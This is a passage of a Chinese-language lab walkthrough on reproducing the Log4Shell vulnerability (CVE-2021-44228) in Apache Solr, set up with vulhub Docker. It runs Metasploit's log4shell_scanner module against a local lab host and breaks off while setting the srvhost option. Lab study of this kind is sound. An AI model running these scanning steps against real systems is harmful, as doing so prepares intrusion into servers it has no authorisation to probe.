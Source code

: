 >漏洞环境
>Apache Log4j2 是一个第三方库，可以通过使用了这个库的应用来复现这个漏洞，比如 Apache Solr
>
>Apache Solr 8.11.0，依赖于 Log4j 2.14.1
>
>Apache Solr是一个开源的高性能搜索服务，采用Java5开发，基于Lucene的全文搜索服务器

切换到靶场目录

```
[root@centos ~]# cd ~/vulhub/log4j/CVE-2021-44228/
```

启动环境

```
[root@centos CVE-2021-44228]# docker-compose up -d
```

查看访问端口

```
 [root@centos CVE-2021-44228]# cat docker-compose.yml
```

访问

> http://centos7-6.local:8983/

**漏洞验证**

启动 msf

```
┌──(root㉿kali)-[~]
└─# msfdb run
```

加载 log4j2 漏洞扫描模块

```
msf6 > use auxiliary/scanner/http/log4shell_scanner
```

显示 log4shell_scanner 选项

```
msf6 auxiliary(scanner/http/log4shell_scanner) > show options
```

设置 rhost 

```
msf6 auxiliary(scanner/http/log4shell_scanner) > set rhost centos.local
```

设置 rport

```
msf6 auxiliary(scanner/http/log4shell_scanner) > set rport 8983
```

设置 srvhost
